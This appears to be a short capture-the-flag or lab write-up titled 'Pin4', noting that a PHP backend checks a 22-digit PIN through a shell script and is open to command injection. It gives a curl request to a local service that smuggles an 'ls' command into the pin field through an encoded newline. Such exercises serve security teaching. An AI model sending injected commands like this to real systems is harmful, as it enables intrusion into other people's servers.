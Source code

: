 ## Pin4
Now with long PIN code - 22 digits!

Backend verifies PIN towards a shellscript. PHP/Script combo is vulnerable to command injections.

  curl 'http://localhost:36964/api/checkpin' -H 'Content-Type: application/x-www-form-urlencoded'  --data-raw 'pin=22%0Als' 

